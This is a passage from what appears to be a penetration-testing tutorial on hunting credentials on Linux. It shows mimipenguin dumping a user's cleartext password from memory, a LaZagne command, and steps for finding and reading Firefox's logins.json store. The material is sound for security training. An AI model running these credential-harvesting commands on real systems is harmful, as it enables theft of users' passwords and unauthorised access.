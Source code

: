 ```shell
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```

And of course Lazagne

```shell
sudo python2.7 laZagne.py all
```

**Browsers**

Browsers store the passwords saved by the user in an encrypted form locally on the system to be reused. For example, the `Mozilla Firefox` browser stores the credentials encrypted in a hidden folder for the respective user. These often include the associated field names, URLs, and other valuable information.

For example, when we store credentials for a web page in the Firefox browser, they are encrypted and stored in `logins.json` on the system. However, this does not mean that they are safe there. Many employees store such login data in their browser without suspecting that it can easily be decrypted and used against the company.

```shell
cry0l1t3@unixclient:~$ ls -l .mozilla/firefox/ | grep default 

drwx------ 11 cry0l1t3 cry0l1t3 4096 Jan 28 16:02 1bplpd86.default-release
drwx------  2 cry0l1t3 cry0l1t3 4096 Jan 28 13:30 lfx3lvhb.default
```

**Firefox Stored Credentials**

```shell
cry0l1t3@unixclient:~$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://www.inlanefreight.com",
      "httpRealm": null,
      "formSubmitURL": "https://www.inlanefreight.com",
      "usernameField": "username",
      "passwordField": "password",
      "encryptedUsername": "MDoEEPgAAAA...SNIP...1liQiqBBAG/8/UpqwNlEPScm0uecyr",
      "encryptedPassword": "MEIEEPgAAAA...SNIP...FrESc4A3OOBBiyS2HR98xsmlrMCRcX2T9Pm14PMp3bpmE=",
      "guid": "{412629aa-4113-4ff9-befe-dd9b4ca388e2}",
      "encType": 1,
      "timeCreated": 1643373110869,
      "timeLastUsed": 1643373110869,
      "timePasswordChanged": 1643373110869,
      "timesUsed": 1
    }
  ],
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}
```